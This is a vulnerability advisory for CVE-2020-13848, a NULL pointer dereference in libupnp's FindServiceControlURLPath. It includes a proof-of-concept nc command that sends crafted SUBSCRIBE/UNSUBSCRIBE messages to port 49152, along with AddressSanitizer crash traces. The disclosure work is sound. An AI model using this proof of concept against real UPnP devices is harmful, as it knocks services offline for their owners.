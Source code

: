 # CVE-2020-13848: Denial of Service in Portable UPnP SDK (aka libupnp)

Portable UPnP SDK (aka libupnp) 1.12.1 and earlier allows remote attackers to cause a denial of service (crash) via a crafted SSDP message due to a NULL pointer dereference in the functions `FindServiceControlURLPath` and `FindServiceEventURLPath` in `genlib/service_table/service_table.c` [1].

## Details
There is a NULL pointer dereference in the function `FindServiceControlURLPath` in `genlib/service_table/service_table.c`.

A segmentation fault occurs if the string `controlURLPath` is NULL. This crash can be triggered by sending a malformed `SUBSCRIBE` or `UNSUBSCRIBE` using any of the attached files [2,3].

```
cat <subscribe/unsubscribe>.txt | nc <ip> 49152
```

Compiling the library with ASan enabled, this will result in the following output using subscribe.txt

```
>> AddressSanitizer:DEADLYSIGNAL
=================================================================
==1382600==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f9314e77878 bp 0x000000000002 sp 0x7f930eef98d0 T6)
==1382600==The signal is caused by a READ memory access.                                                                                                                      
==1382600==Hint: address points to the zero page.
    #0 0x7f9314e77877 in FindServiceControlURLPath src/genlib/service_table/service_table.c:357
    #1 0x7f9314e85b83 in GetDeviceHandleInfoForPath src/api/upnpapi.c:4246
    #2 0x7f9314e7fda8 in gena_process_subscription_renewal_request src/gena/gena_device.c:1464
    #3 0x7f9314e7641b in dispatch_request src/genlib/miniserver/miniserver.c:157
    #4 0x7f9314e7641b in handle_request src/genlib/miniserver/miniserver.c:230
    #5 0x7f9314e6ffca in WorkerThread src/threadutil/ThreadPool.c:576
    #6 0x7f9314e3efb6 in start_thread /build/glibc-suXNNi/glibc-2.29/nptl/pthread_create.c:486
    #7 0x7f9314d702ce in __clone (/lib/x86_64-linux-gnu/libc.so.6+0xfa2ce)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/genlib/service_table/service_table.c:357 in FindServiceControlURLPath
Thread T6 created by T0 here:
    #0 0x7f9314ed09b2 in pthread_create (/lib/x86_64-linux-gnu/libasan.so.5+0x399b2)
    #1 0x7f9314e6f97b in CreateWorker src/threadutil/ThreadPool.c:651

==1382600==ABORTING
```

and using unsubscribe.txt

```
>> AddressSanitizer:DEADLYSIGNAL
=================================================================
==1382441==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f0c2ac29878 bp 0x000000000002 sp 0x7f0c23cf78e0 T8)
==1382441==The signal is caused by a READ memory access.                                                                                                                      
==1382441==Hint: address points to the zero page.
    #0 0x7f0c2ac29877 in FindServiceControlURLPath src/genlib/service_table/service_table.c:357
    #1 0x7f0c2ac37b83 in GetDeviceHandleInfoForPath src/api/upnpapi.c:4246
    #2 0x7f0c2ac32001 in gena_process_unsubscribe_request src/gena/gena_device.c:1577
    #3 0x7f0c2ac2841b in dispatch_request src/genlib/miniserver/miniserver.c:157
    #4 0x7f0c2ac2841b in handle_request src/genlib/miniserver/miniserver.c:230
    #5 0x7f0c2ac21fca in WorkerThread src/threadutil/ThreadPool.c:576
    #6 0x7f0c2abf0fb6 in start_thread /build/glibc-suXNNi/glibc-2.29/nptl/pthread_create.c:486
    #7 0x7f0c2ab222ce in __clone (/lib/x86_64-linux-gnu/libc.so.6+0xfa2ce)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/genlib/service_table/service_table.c:357 in FindServiceControlURLPath
Thread T8 created by T0 here:
    #0 0x7f0c2ac829b2 in pthread_create (/lib/x86_64-linux-gnu/libasan.so.5+0x399b2)
    #1 0x7f0c2ac2197b in CreateWorker src/threadutil/ThreadPool.c:651

==1382441==ABORTING
```

This was tested on the current master branch and on release 1.6.6. Earlier versions may also be affected.




## References
[1] CVE-2020-13848 - https://nvd.nist.gov/vuln/detail/CVE-2020-13848

[2] [subscribe.txt](https://github.com/pjlantz/pjlantz.github.io/blob/master/docs/assets/subscribe.txt)

[3] [unsubscribe.txt](https://github.com/pjlantz/pjlantz.github.io/blob/master/docs/assets/unsubscribe.txt)
